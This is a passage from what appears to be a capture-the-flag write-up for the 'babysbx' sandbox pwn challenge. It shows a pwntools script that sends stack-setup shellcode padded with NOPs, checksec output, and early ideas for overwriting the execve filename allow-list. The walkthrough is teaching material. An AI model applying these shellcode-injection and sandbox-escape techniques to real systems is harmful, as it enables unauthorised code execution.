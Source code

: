 Any PUSH instruction we try will fail because there's no stack frame setup with RSP and RBP. For our initial setup code, we can start by creating a stack within the memory region that was allocated for us by setting rbp and rsp to some values with a couple of bytes in between for our stack.
```python
from pwn import *

elf = ELF("./babysbx")
context.binary = elf

def conn():
    if args.GDB:
        script = """
        b *(main+201)
        c
        """
        p = gdb.debug(elf.path, gdbscript=script)
    elif args.REMOTE:
        p = remote("addr", 1337)
    else:
        p = process(elf.path)
    return p

def run():
    setup_stack = """
    movabs rbp, 0xc0def00
    sub rbp, 0x38
    mov rsp, rbp
    """
    shellcode = asm(setup_stack)
	p = conn()

    p.recvuntil(b'shellcode: ')

    payload = shellcode.ljust(0xfd7, b'\x90')

    p.sendline(payload)
    p.interactive()
```

We also have to make sure to use ljust to pad our payload to the desired length before sending it otherwise the buffer will be expecting more bytes and nothing will get executed. This will get us going for any starter shellcode we want to write.

## Exploit Ideation

It looks like we need to find the address of the variable controlling our allowed filename for execve and find a way to overwrite the string that is currently there. You might be thinking we already have the address from earlier, but upon a second look, PIE is enabled so we can't rely on any hardcoded address
```bash
$ checksec ./babysbx
[*] '/BlackhatMEAFinals/pwn/babysbx_pwn/babysbx'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
